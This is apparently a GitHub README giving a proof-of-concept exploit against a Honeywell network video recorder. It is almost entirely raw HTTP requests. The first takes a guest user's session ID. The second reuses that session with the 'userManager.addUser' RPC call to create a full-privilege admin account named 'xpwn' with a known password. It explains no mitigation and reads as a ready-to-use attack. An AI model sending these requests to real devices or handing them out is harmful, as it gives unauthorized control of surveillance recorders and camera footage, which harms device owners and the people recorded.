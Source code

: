 # Honeywell_NVR_vul


### First, obtain the SessionID for a guest user.
We can find the SessionID from any http request. Such as:  
POST https://192.168.1.104/RPC2 HTTP/1.1  
Accept: text/javascript, text/html, application/xml, text/xml  
X-Requested-With: XMLHttpRequest  
X-Request: JSON  
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Referer: https://192.168.1.104/  
Accept-Language: zh-cn  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64; Trident/7.0; rv:11.0) like Gecko  
Host: 192.168.1.104  
Content-Length: 84  
DNT: 1  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DHLangCookie30=%2Fweb_lang%2FEnglish.txt; DhWebSnapPath=C%3A%5CPictureDownload%5C; DhWebRecordPath=C%3A%5CRecordDownload%5C; DhWebClientSessionID=113826814; DhWebCookie=%7B%22username%22%3A%22guest%22%2C%22talktype%22%3A%221%22%2C%22loginid%22%3A633443784%7D

{"method":"global.keepAlive","params":{"timeout": 300},"session":113826814,"id":112}  

"session":113826814 is the SessionID for the current guest user.


### Second, create the admin user.
send the special http request with above mentioned SessionID:
POST https://192.168.1.104/RPC2 HTTP/1.1  
x-requested-with: XMLHttpRequest  
Accept-Language: zh-cn  
Accept: text/javascript, text/html, application/xml, text/xml
Content-Type: application/x-www-form-urlencoded; charset=utf-8  
Accept-Encoding: gzip, deflate  
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)  
Host: 192.168.1.104  
Content-Length: 759  
Connection: Keep-Alive  
Cache-Control: no-cache  
Cookie: DhWebClientSessionID= 113826814

{"method":"userManager.addUser","params":{"user":{"Id":3,"Group":"admin","Name":"xpwn","Password":"DD75DAB01878D84C963128764AB24DD3","Memo":"","Sharable":false,"AuthorityList":["Account","GeneralConf","OutputConfig","TVSet","ComConf","PtzConfig","AutoMaintain","bkConfig","OfflineLoginedUser","DefaultConfig","SysUpdate","MPTZ","Sysinfo","QueryLog","Alarm","Record","Backup","RecordConf","MHardisk","DataFormat","AlarmConf","VideoConfig","NetConf","RemoteDevice","EncodeConf","DelLog","ShutDown","Replay_01","Replay_02","Replay_03","Replay_04","Replay_05","Replay_06","Replay_07","Replay_08","Monitor_01","Monitor_02","Monitor_03","Monitor_04","Monitor_05","Monitor_06","Monitor_07","Monitor_08","Monitor","Replay","CtrPanel"]}},"session": 113826814,"id":271}

"session": 113826814 is the SessionID we get from the first step.


Now, the admin account with name: xpwn and password:Pwd@12345 is created. We can log in to the device with this account.

